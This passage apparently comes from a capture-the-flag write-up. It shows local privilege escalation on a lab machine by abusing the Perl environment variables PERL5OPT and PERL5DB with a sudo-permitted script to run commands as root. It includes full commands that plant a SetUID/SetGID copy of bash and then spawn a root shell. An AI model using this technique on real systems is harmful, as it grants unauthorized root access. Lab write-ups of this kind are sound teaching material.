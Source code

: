 ![](/img/image-20240125153156507.png)

#### Exploit

To run this, I'll just set these environment variables to touch a file:



    jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("touch /0xdf")' /opt/monitor.sh 
    No DB::DB routine defined at /usr/bin/xml_pp line 9.
    No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
    END failed--call queue aborted.



The `0xdf` file now exists owned by root in the system root:



    jack@clicker:~$ ls -l /0xdf
    -rw-r--r-- 1 root root 0 Jan 25 20:32 /0xdf



To get a shell, I'll create a copy of `bash` and make it SetUID and
SetGID:



    jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf")' /opt/monitor.sh 
    No DB::DB routine defined at /usr/bin/xml_pp line 9.
    No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
    END failed--call queue aborted.



The file now exists, is owned by root, and is SetUID and SetGID:



    jack@clicker:~$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1396520 Jan 25 20:36 /tmp/0xdf



I'll run it (not forgetting `-p` to not drop privs) and get an effective
root shell:



    jack@clicker:~$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1000(jack) gid=1000(jack) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),1000(jack)



And the flag:
